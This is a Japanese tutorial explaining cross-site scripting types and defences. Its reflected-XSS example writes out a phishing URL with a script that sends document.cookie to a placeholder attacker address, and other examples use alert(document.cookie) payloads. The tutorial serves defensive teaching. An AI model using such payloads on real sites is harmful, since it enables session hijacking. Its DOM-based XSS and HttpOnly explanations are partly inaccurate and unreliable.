


# XSSとは

こちら記事では、「XSS(クロスサイトスクリプティング)」について解説します。

XSSとは、セキュリティ的欠陥のあるWebサイトが攻撃者によって狙われ、ユーザが被害に遭う**サイバー攻撃の1種**です。XSSの正式名称は「Cross Site Scripting」ですが、初期に発見されたXSSが「複数サイトをまたがって攻撃すること」や、カスケーディングスタイルシートの「CSS」と混同しないようにXSSという略称で呼ばれています。

こちらの記事を通して、XSSの正しい知識と対策を学習しましょう。

## なぜXSSの対策を行わなければならないのか

対策を行う主な理由は2つあり、**現在のWeb開発の需要**と**XSSによる被害状況**にあります。

### 現在のWeb開発の需要

Webサイトには静的Webサイトと動的Webサイトの2種類があり、需要が拡大しているのが**動的Webサイト**です。現在のECサイトやSNSは、個々のユーザの趣味や嗜好に合わせたWebサイトを提供しています。

動的Webサイトはユーザ1人1人に合わせて動的にHTMLなどを生成するので、悪意を持ったユーザが使用した場合に攻撃されてしまう可能性があります。

### XSSにおける被害状況

XSSによる被害は、年々減少している、というわけではありません。
[IPA: 情報処理推進機構](https://www.ipa.go.jp/)は、[ソフトウェア等の脆弱性関連情報に関する届出状況](https://www.ipa.go.jp/security/vuln/report/press.html)という情報を公開しています。

Webサイトの脆弱性の種類別の届出状況において、XSSは**常に一定以上の割合(2022年は58％)の届出が出されている**状況です。このため、Web開発においてXSSは必ず意識して対策を行わなければなりません。

参照: [ソフトウェア等の脆弱性関連情報に関する届出状況 2022年第2四半期(4月~6月)](https://www.ipa.go.jp/files/000099955.pdf)

## XSSとはどういったものなのか

**XSSはスクリプトと呼ばれるスクリプト言語を悪用して攻撃を行います**。本記事において、「スクリプト」はJavaScriptを指しています。

そして、XSSには以下の3種類の攻撃が存在します。

1. 反射型XSS(非持続的)
2. 格納型XSS(持続的)
3. DOM Based XSS

XSSには3種類の攻撃が存在しますが、いずれも攻撃者がスクリプトを悪用して攻撃を行う所は共通しています。ただし、攻撃者の攻撃手法によって分けられています。
本記事ではXSSについて以下の点に焦点を当てて解説します。

* XSSは、スクリプトをどのように悪用するのか
* 3種類のXXSの特徴
* XSSへの対策

参考: [攻撃手法の分類](https://ja.wikipedia.org/wiki/%E3%82%AF%E3%83%AD%E3%82%B9%E3%82%B5%E3%82%A4%E3%83%88%E3%82%B9%E3%82%AF%E3%83%AA%E3%83%97%E3%83%86%E3%82%A3%E3%83%B3%E3%82%B0#:~:text=pass%22%3E%20%3Cbr%20/%3E%0A%3C/form%3E-, %E6%94%BB%E6%92%83%E6%89%8B%E6%B3%95%E3%81%AE%E5%88%86%E9%A1%9E%5B%E7%B7%A8%E9%9B%86%5D, -CWE%2D79%E3%81%A7%E3%81%AF)

## スクリプトの動作を理解する

XSSはスクリプトを悪用して行われる攻撃です。前述しましたが、本記事で言うスクリプトとは、JavaScriptのことを指します。つまり、XSSを理解するにはJavaScriptがどのように動作するかを理解する必要があります。

ローカル環境でhttpサーバを建てて検証します。 `http://localhost:8080` にアクセスすると以下の画像のように表示されているとします。



* bad_script.html
  + 悪意を持って作られたスクリプトが動作するページ
* normal_script.html
  + 通常のスクリプトの動作を行うページ

### スクリプトが通常に動作する場合

つまり、JavaScriptが正常に動作した場合を解説します。

```html: normal_script.html
<! DOCTYPE html>
<html>
  <body>

    <script>
      document.write("Hello world!!");

      var today = new Date();
      alert(today);
    </script>

  </body>
</html>

```

上記のコードは簡単ですがJavaScriptを動作させた例です。

現在時刻をポップアップで表示した後に、ブラウザに「Hello World!!」と表示されます。このように、JavaScriptはアクセスした時の現在時刻を表示させることや、ポップアップでWebサイトのUIに動きを付ける事が出来ます。前述したように、動的なWebサイトを作成することが出来るということです。

### スクリプトが悪意を持って使用した場合

悪意を持ってJavaScriptを使用する例として、Webサイト内で対象ページ(リンク)をクリックしたい際に以下のような動作が行われるようにします。

* リダイレクト処理(ページ遷移)が行われてしまう
* クッキーの値(個人情報だと思ってください)が表示されてしまう

Webサイトの構造と、悪意を持って作られたページのコードは以下のようになっているとします。

```html: bad_script.html
<! DOCTYPE html>
<html>
  <body>

    <script>
      alert(document.cookie);
      window.location.href = "https://envader.plus";
    </script>

  </body>
</html>
```


Webページを開くと上のようになっており、 `bad_script.html` をクリックすると悪意のあるスクリプトが動作します。クリックしてみます。すると、ポップアップでクッキーの値が表示され、 `https://envader.plus` にページ遷移してしまいました。

### 反射型XSS(非持続的)

反射型XSSは、まず攻撃されたユーザは何らかの形でスクリプトを含んだリクエストをサーバに送信します。リクエストに含まれたスクリプトは、リクエストを送ったユーザに返ってくる事から、反射型XSSと呼ばれています。反射型XSSを受けてからの流れを、[Envader](https://envader.plus/)を例に挙げて分かりやすく解説します。

「Envader」へアクセスする場合は `https://envader.plus` というURLへアクセスします。そしてLinux基礎コースのチュートリアルには `https://envader.plus/course/1/scenario/1000` へアクセスします。

例えば、攻撃者がEnvaderの運営者を装って次のようなメールを送ってきたとします。
「新しいコースができました！URLは `https://anvader.prus/course/1/scenario/1000<script>location.href="http://攻撃者の用意したサイトのアドレス?"+document.cookie</script>` です。新しいコースに挑戦してみましょう！」

このURLにはいくつかのスクリプトを実行させるような命令が含まれています。
`<script></script>` は、スクリプトを実行させる命令文です。実行させる内容は `location.href="http://攻撃者の用意したサイトのアドレス?"+document.cookie` です。つまり、**利用者のCookieの値を攻撃者のサーバに送信する**というスクリプトが実行されてしまいます。 (Cookieには、セッションIDという、**ユーザがログインした際に発行され、そのユーザを識別する番号**が含まれています。)

上記のスクリプトが実行された事で、**本来のCookieの値の持ち主になりすまされ、個人情報を盗まれるなどの被害に遭う可能性があります**。このような、Webサイト上のCookieなどの個人情報を不正に入手するサイバー攻撃のことを**セッションハイジャック**と呼びます。

通常、リンクをクリックするという事は、サーバに対してURLのWebサイトを下さいというリクエストを送り、Webサイトがレスポンスとして返ってきてブラウザが表示します。
不正なスクリプトを含んだリンクをクリックした場合、ブラウザが対象Webサイトを表示される所までは同じですが、**ブラウザはもう1つの動作を行います**。**リンクに含まれていた不正なスクリプト(利用者のCookieの値を攻撃者のサーバに送信する)を実行する**というものです。このように、**不正なスクリプトが送信者に返って実行されてしまうことから反射型XSSと呼ばれています**。
対象Webサイトには、アクセスした利用者にマルウェアなどを強制的にダウンロードさせるような罠が仕掛けられている可能性もあります。

今回の一例で挙げた攻撃を回避するには、「**攻撃者の用意した不正なスクリプトを含んだリンクをクリックしない**」ということです。
メールに記載されたURLを良く見れば、「envader.plus」のスペルが違ったりURLが長いなと不審な点に気付くかもしれません。しかし、XSSに詳しくないユーザであれば、油断してリンクをクリックしてしまうかもしれません。メールだけでなくWebサイトに不正なスクリプトを含んだリンクが埋め込まれている可能性もあるので、誘導されるような形でURLにアクセスするような行動には十分な注意が必要です。

> **反射型XSSの図の挿入予定**

### 格納型XSS(持続的)

格納型XSSは、攻撃者が脆弱性のあるWebサイトの内部に悪意のあるプログラムを仕込む(格納する)ことから「格納型XSS」と呼ばれています。

悪意のあるプログラムが仕込まれたWebサイトを閲覧するだけで、攻撃が実行されてしまいます。

**個人情報を盗まれたり、不正プログラムに感染してしまう点**は、反射型XSSと同じですが、攻撃者によって仕込まれた悪意のあるプログラムを取り除かないと**永久(持続的)に攻撃が行われてしまいます**。

> **格納型XSSの図の挿入予定**

### DOM Based XSS

DOMは「Document Object Model」のことで、簡単に説明すると**プログラムからHTMLなどを自由に操作するための仕組みのこと**です。**DOMの仕組みを悪用する**ことからDOM Based XSSと呼ばれます。
DOMのイメージが中々付かなくて難しく感じると思いますが、Web開発者にとって必ず知っておくべき攻撃ですので、なるべく分かりやすく説明していきます。

Web開発者はブログサイトを作成し、投稿された日記に対して**自由にコメントを付けられるように入力フォームを用意しました**。Web開発者が想定した、入力フォームに入力されるものは「素敵ですね！」や、「私も◯月◯日にそこに行きました！」などの**文字や数字**でした。

しかし、悪意のある攻撃者は入力フォームに、 `<script>alert(document.cookie)</script>` というスクリプトを入力しました。入力された内容は、**Cookieの値をポップアップで表示させる**というものです。 (Cookieには、セッションIDという、**ユーザがログインした際に発行され、そのユーザを識別する番号**が含まれています。)

つまり、このスクリプトを入力されたことで、**本来のCookieの値の持ち主になりすまされ、個人情報を盗まれるなどの被害に遭う可能性があります。**
このような、Webサイト上のCookieなどの個人情報を不正に入手するサイバー攻撃のことを**セッションハイジャック**と呼びます。

> **DOMベースのXSSの図の挿入予定**

## Web開発者が行う対策

ここではWebサイトを作成する側が行うべき対策について解説します。

### 1. エスケープ処理・サニタイズ

XSSのようなサイバー攻撃につながるような文字を無効化することを**サニタイズ**と言い、上記のように対象の文字を無害な文字に置き換えることを**エスケープ処理を行う**と言います。(サニタイジングするとも言います。)

* 「<」 →  `&lt;`
* 「>」 →  `&gt;`
* 「"」 →  `&quot;`
* ...

エスケープ処理を行うと、入力フォームに「 `<script>` 」と打ち込まれても、「 `&lt;script&gt;` 」という無害な文字列に置き換えることができます。

### 2. バリデーション処理(入力値の制限)

例えば、電話番号だったら「数字」だけの入力を許可し、名前のふりがなであれば、「ひらがな・カタカナ」だけを許可します。このように、意図しない値を入力されるように防ぐことを**バリデーション処理**と呼びます。

意図しない入力値が入力されたら再度入力を促すなど、適切なバリデーション処理を行いましょう。

### 3. Cookieへのアクセス制限

Cookieが安全に送信され、意図しない第三者やスクリプトからアクセスされないようにする為に、Cookieへのアクセス制限を行いましょう。

Cookieへのアクセス制限にはSecure属性と、HttpOnly属性の2つの方法があります。Secure属性はHTTPに暗号化を行ったHTTPSの通信のみを許可するものです。httpOnly属性は、DOM Based XSSで例に挙げた、「 `<script>alert(document.cookie)</script>` 」のような入力を無効化することができます。
Secure属性を付ける事で通信自体にセキュリティ対策をすることに繋がり、HttpOnly属性を付ける方法は特に**XSS攻撃の対策に有効**です。

## ユーザが行う対策

ここでは、Webサイトを利用するユーザが行うべき対策について解説します。

### 1. 安全なブラウザを使用する

XSSは、**ブラウザ自体のセキュリティ的欠陥を付くケース**もあります。また、最新かつ推奨されるブラウザには「**XSSフィルター**」というXSS攻撃を検知してブロックする機能が備わっています。
セキュリティ的に推奨されるブラウザの使用や、常に最新のバージョンにアップデートすることでXSS対策になります

### 2. セキュリティソフトを導入する

セキュリティソフトには危険な通信を検知して自動でシャットアウトしてくれたり、アクセスしようとするサイトが危険であることを知らせてくれる機能があります。自身の必要性に応じて導入を検討しましょう。

### 3. 不審なURLに安易にアクセスしない

反射型XSSで紹介したフィッシング詐欺のようなURLにアクセスさせることで個人情報などを盗もうとするケースが多々あります。見に覚えのないメールや不審なWebサイトは、本当に問題ないのか十分に確認する必要があります。

## まとめ

XSSには3種類ありますが、どれか1つだけにだけ対策するのではなく、全ての攻撃に対して対策しなければなりません。

また、XSSはセキュリティ的欠陥のあるWebサイトが標的になります。しかし、XSSの真の標的は、**そのWebサイトを利用するユーザです**
Webサイトを作成する側がXSSに対して対策するのは勿論ですが、利用する側もXSSに対して対策を行うことが求められます。

XSSに対する正しい知識を身に付け、Webサイトの開発・利用を行っていきましょう。
